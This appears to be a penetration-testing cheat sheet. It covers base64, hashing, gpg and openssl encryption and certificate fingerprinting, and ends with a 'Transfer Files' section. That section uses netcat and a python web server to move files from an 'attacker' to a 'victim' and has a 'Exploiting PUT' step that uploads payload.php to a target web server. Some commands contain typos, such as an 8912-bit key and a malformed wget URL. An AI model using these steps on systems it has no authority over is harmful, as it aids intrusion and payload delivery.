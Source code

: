 # Utilities

[TOC]



### CyberChef - [URL](https://github.com/gchq/CyberChef)



### Base64

```bash
#Base64 encoding:
echo -n "admin:password" | base64

#Base64 decoding:
echo "YWRtaW46cGFzc3dvcmQ=" | base64 -d
```



## Data Integrity - calculate Hashes 


```bash
# Linux Utilities
md5sum <data> 
sha1sum <data> 
sha256sum <data>

# OpenSSL
openssl sha256 <data>
openssl sha512 <data>
```



## Symmetric Encryption

### OpenPGP

```bash
# Encrypt a file (default symmetric cipher used is AES-128)
gpg -c --cipher-algo AES-256 --encrypt <data.txt> 
or
gpg --cipher-algo AES-256 --symmetric <data.txt> 

# Decrypt a file 
gpg -d <data.txt.gpg>
or
gpg --decrypt <data.txt.gpg>
```

### OpenSSL

```bash
# Encrypt a file (The method described uses a weak key derivation function. The ONLY security is introduced by a very strong password)
openssl aes-256-cbc -in <data.txt> -out <encrypted.enc>

# Encrypt a file - using a different encoding method of Base64 before storing the results in a file
openssl aes-256-cbc -a -in <data.txt> -out <encrypted.enc>

# Decrypt a file
openssl aes-256-cbc –a -d -in <encrypted.enc> -out <decrypted.txt>
```



## Asymmetric Encryption

### OpenSSL - Generate Certificate

```bash
# 1.Generate a private key (8912 creates the key 8912 bits long)
openssl genrsa -aes256 -out private.key 8912 

# 2.Generate a public key (use the private key)
openssl rsa -in private.key -pubout -out public.key 

# 3.Encrypt a file (plaintext.txt) using our public key
openssl rsautl -encrypt -pubin -inkey public.key -in <plaintext.txt> -out <encrypted.txt> 

# 4.Decrypt the file and get the original message using private key 
openssl rsautl -decrypt -inkey private.key -in <encrypted.txt> -out <plaintext.txt>
```

### OpenSSL - Verify Fingerprint
```bash
# Gather certificate
echo -n | openssl s_client -connect <website> | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > ./<cert_name>

# Extract and display Certificate fingertprint
openssl x509 -noout -in <cert_name> -fingerprint -sha1
```



## Transfer Files

### Using Netcat 

```bash
# On victim 
nc -l -p <port> > <filename> 

# On attacker 
nc -w -3 <machine_ip> <port> <  <filename> 

# Exploiting PUT 
wc -m <payload.php> (get the size) 
nc -v <target> 80 

PUT /payload.php HTTP/1.0 
Content-type: text/html 
Content-size: <size>
```



### Using Python 

```bash
# On the attacker 
python3 -m http.server <port>

# On the victim (One file)
wget http://<machine_ip:<port>/<filename>

# On the victim (Multiple file)
wget -r http://<machine_ip:<port>
```

 

 

 